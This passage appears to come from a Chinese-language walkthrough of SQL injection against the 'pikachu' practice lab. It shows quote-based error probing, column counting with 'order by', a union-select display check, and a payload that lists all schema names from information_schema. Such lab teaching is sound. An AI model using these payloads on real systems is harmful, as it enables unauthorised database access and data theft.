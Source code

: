 ```
#查看页面变化，判断sql注入类别 
id=1 修改成
id=1' 
```

![image-20220124202542469](https://gitee.com/xxb667/img/raw/master/img/image-20220124202542469.png)

确定错误

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

### 确定字段数

```
#确定字段数 
id=1 order by 2 可以正常显示

id=1 order by 3 出错

字段只有两个，所以3会出错
```

![image-20220124202803020](https://gitee.com/xxb667/img/raw/master/img/image-20220124202803020.png)

```
id=1 order by 3 出错
```

出错内容

```
Unknown column '3' in 'order clause'
```

![image-20220124202910447](https://gitee.com/xxb667/img/raw/master/img/image-20220124202910447.png)



### 查看显示位

```
#联合查询查看显示位 
id=-1 union select 1,2
```

![image-20220124203155619](https://gitee.com/xxb667/img/raw/master/img/image-20220124203155619.png)



### 爆库

得到所有数据库中的名字

```
#爆库【pikachu】 
id=-1 union select 1,group_concat(schema_name) from information_schema.schemata 
 
```
